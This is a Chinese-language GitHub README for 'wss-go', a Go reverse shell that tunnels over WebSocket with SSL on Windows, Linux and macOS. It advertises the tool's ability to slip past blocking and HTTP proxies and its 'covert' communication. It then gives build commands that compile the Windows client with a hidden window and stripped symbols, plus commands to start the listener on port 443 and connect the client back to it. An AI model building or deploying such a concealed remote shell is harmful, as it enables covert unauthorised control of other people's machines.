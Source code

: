 # wss-go：使用 Golang 编写的 Websocket with SSL 的反向 Shell

一款使用 Golang 编写的 Websocket with SSL 的反向 Shell。

适用于Windows, Linux, MacOS。

## 文档

- [English](https://github.com/piaolin/wss-go/blob/main/README.md)
- [中文文档](https://github.com/piaolin/wss-go/blob/main/README_ZH.md)

## 原理

使用 Websocket 进行通信，并使用 SSL 证书进行加密。

## 特性

- 握手阶段采用 HTTP 协议，因此握手时不容易屏蔽，能通过各种 HTTP 代理服务器。
- 使用 SSL 证书进行加密。
- 数据格式比较轻量，性能开销小，通信高效隐蔽。

## 使用方法

### Windows

```shell
go env -w GOOS=windows
go build -o wssServer.exe server/server.go
go build -o wssClient.exe -ldflags -H=windowsgui -ldflags "-s -w" client/client.go
```

### 截屏

![](https://i.loli.net/2021/08/29/gHhY4RaGOcDAdnp.png)
![](https://i.loli.net/2021/08/29/YQVOlgW28pmqsto.png)

### MacOS & Linux

```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```

### 截屏

![](https://i.loli.net/2021/08/29/gExYGVKBzpte1Pv.png)

## 待办

- RSA & AES

